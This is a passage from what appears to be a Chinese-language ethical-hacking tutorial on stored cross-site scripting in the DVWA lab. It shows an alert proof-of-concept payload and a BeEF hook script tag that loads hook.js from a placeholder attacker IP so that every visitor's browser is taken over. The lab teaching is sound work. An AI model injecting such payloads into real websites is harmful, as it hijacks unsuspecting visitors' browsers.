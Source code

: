 ![](img/fbe20ebe-7788-4d83-893a-dd96de40bb2b.png)

所以，如果我们切换到另一台位于不同地点的 DVWA 机器并访问 XSS 存储标签，我们将能看到两个条目。这些条目会从数据库加载，并且它们包含数据库中的内容。如果我们成功注入了代码而不是消息，那么代码将在每次运行该页面的人的机器上执行，而我们甚至不需要发送任何代码给他们。

让我们尝试将代码注入到运行在 Kali 环境中的 DVWA 中。让我们将名字输入为 `zaid`。我们将尝试将我们的代码输入到消息文本框中。我们将其输入为 `<script>`，并且我们将使用与上一节相同的测试代码，只是一个显示 `XSS` 的消息。再次强调，非常基础的代码，但它足以用于此攻击的目的。我们将让代码显示 `alert("XSS")`，然后点击“Sign Guestbook”按钮。因此，代码如下所示：

```
<script>alert("XSS")</script>
```

我们将看到弹出警报中显示的 XSS，但当普通人访问页面时才会真正发生奇迹：

![](img/a6ba38aa-68ff-43d4-ad21-035f003f6fc9.png)

假设 DVWA 只是一个普通的网站，人们只是来浏览它。一旦他们转到网站上的 XSS 存储选项卡，JavaScript 代码将从网站上在他们的系统上执行。代码将来自网站并在访问该页面的每个用户上执行。再次强调，我们这里只是实施概念验证；在接下来的部分中，我们将看到如何进一步利用这种类型的漏洞。

# XSS BeEF 利用

我们还没有找到一种有效利用 XSS 漏洞的好方法；到目前为止，我们所做的一切只是注入了一个非常简单的代码，在屏幕上显示一个警报，说明这个网站存在漏洞。我们现在要做的是更高级的操作。我们想要控制受害者，在访问我们注入代码的漏洞页面时，在目标计算机上执行操作。我们将使用 BeEF 浏览器来实现这一点。我们在之前的章节中已经看过 BeEF。我们现在要做的是使用 BeEF 钩子 URL，并将其注入到存储型 XSS 页面中，以便每个访问该页面的人都会被连接到 BeEF。然后，我们将能够在目标计算机上运行 BeEF 允许我们运行的所有命令。

让我们启动 BeEF。如果我们查看在线浏览器，目前没有受害者。因此，为了将受害者钩入到这个框架并访问 BeEF 的功能，我们需要注入特定的脚本而不是警报：

```
<script src="http://<IP>:3000/hook.js"></script>
```
